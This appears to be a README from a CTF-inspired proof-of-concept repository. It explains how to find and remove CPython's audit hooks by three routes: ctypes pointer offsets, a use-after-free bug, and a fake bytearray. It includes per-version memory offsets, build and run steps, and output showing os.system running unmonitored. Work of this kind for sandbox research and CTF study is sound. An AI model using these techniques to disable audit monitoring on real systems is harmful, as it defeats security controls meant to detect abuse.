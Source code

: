 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
Diligent auditor from *organizers*: <https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>  
IRS writeup from *Maple Bacon*: <https://maplebacon.org/2024/02/dicectf2024-irs/>

## Tested environment
```
Python 3.12.4 (main, Jun  7 2024, 06:33:07) [GCC 14.1.1 20240522] on linux
Python 3.12.3 (tags/v3.12.3:f6650f9ad7, Jun 24 2024, 16:32:34) [GCC 14.1.1 20240522] on linux
Python 3.12.1 (tags/v3.12.1:2305ca5144, Jun 24 2024, 18:55:02) [GCC 14.1.1 20240522] on linux
Python 3.11.9 (main, Jun 23 2024, 04:47:27) [GCC 14.1.1 20240522] on linux
```

## Offsets
### For ctypes
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC.py
if sys.version_info[:2] == (3, 12):
    if sys.version_info[2] <= 3:
        PTR_OFFSET = [0x41448, -0x11df0] # <= 3.12.3
    else:
        PTR_OFFSET = [0x41448, -0x11e20] # for python3.12.4
else:
    # python 3.11
    PTR_OFFSET = [0xe00, -0xe388]
```

### For UAF
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC-no-ctypes.py
# offset for audit hook set by Python and C
if sys.version_info[:2] == (3, 12):
    if sys.version_info[2] <= 3:
        PTR_OFFSET = [24, 48, 0x468f0, -0xc948] # <= 3.12.3
    else:
        PTR_OFFSET = [24, 48, 0x46920, -0xc948] # for python3.12.4
else:
    # there are multiple offsets for 3.11? check the result of POC-no-ctypes.py
    PTR_OFFSET = [24, 48, 0x4d558, 0x3e3d0]
```

## Smash Audit hook using `ctypes`
### Concept
For audit hook set in Python: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `GET_INTERP_ADDR()->audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.  
For audit hook set in C: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `_PyRuntime.audit_hooks.head` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks to `NULL`.
### How to use
```bash
# or ./build311.sh
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
C audit hook triggered! event=sys.addaudithook
--- finished setup ---
PyInterpreterState_addr=0x64df082debe8
PyRuntimeState_addr=0x64df082cc180
PyInterpreterState.audit_hooks_ptr_addr=0x64df0831ffb0
PyRuntimeState.audit_hooks_ptr_addr=0x64df082ccd78

audit_hook_ptr_offset_by_py=0x41448
audit_hook_ptr_offset_by_c=-0x11df0
len=1 should be 1
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered! ('sys.addaudithook', ())
--- finished setup ---
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not

```

## Smash Audit hook without `ctypes`
> ref: <https://maplebacon.org/2024/02/dicectf2024-irs/>

[UAF POC](./UAF-issue91153.md)
### How to use
```bash
# or ./build311.sh
# build the helper binary
./build.sh
# brute-force the offsets
./POC-no-ctypes.py
# verify the offsets works
./POC2-no-ctypes.py
```

## Smash Audit hook with fake bytearray
> ref: <https://www.da.vidbuchanan.co.uk/blog/35c3ctf-collection-writeup.html> and <https://github.com/gousaiyang/my-ctf-challenges/tree/master/PyAuCalc>

### How to use
```bash
./build.sh
./POC-fake-bytearray.py
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [x] Find a way to get the `audit_hook` address without using `ctypes`
- [ ] Use <https://bugs.python.org/issue43838> to smash it?

